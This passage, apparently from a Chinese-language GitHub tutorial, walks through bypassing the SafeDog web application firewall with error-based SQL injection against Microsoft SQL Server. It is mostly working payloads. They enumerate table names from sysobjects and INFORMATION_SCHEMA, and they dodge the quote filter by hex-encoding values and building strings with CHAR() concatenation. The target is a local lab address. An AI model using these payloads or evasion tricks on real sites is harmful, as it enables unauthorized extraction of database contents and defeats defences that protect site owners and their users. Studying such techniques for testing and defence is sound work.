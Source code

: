 ```
and ~1=(select top 1 name from[sysobjects]);--

```

确实也不拦截继续往后测试

```
and ~1=(select top 1 name from[sysobjects] where xtype='u');--  拦截

and ~1=(select top 1 name from[sysobjects] where xtype=);-- 不拦截

```

很简单我们在mssql中可以用char 和hex 来编码我们的表名

```
and ~1=(select top 1 name from[sysobjects] where xtype=0x75);--
```

基本上已经绕过了我们的爆出第一个表名的目的，假如要爆其他的表名 测试发现也是拦截 引号字符而已 用相同的方法绕过即可

```
and ~1=(select top 1 name from[sysobjects] where xtype=0x75 and name not in (CHAR(105)%2BCHAR(110)%2BCHAR(102)%2BCHAR(111),CHAR(97)%2BCHAR(100)%2BCHAR(109)%2BCHAR(105)%2BCHAR(110)));

```

![mysql](./img/2.3.1.png)

其实还有一种方法爆表名利用INFORMATION_SCHEMA,但是安全狗有个设置直接拦截这个关键词，但是不是默认开启的，顺便提一下

```
http://192.168.130.137/1.aspx?id=1 and ~1=(select top 1 table_name from [INFORMATION_SCHEMA].[TABLES] where table_name not in (char(105)%2Bchar(110)%2Bchar(102)%2Bchar(111)));--

```
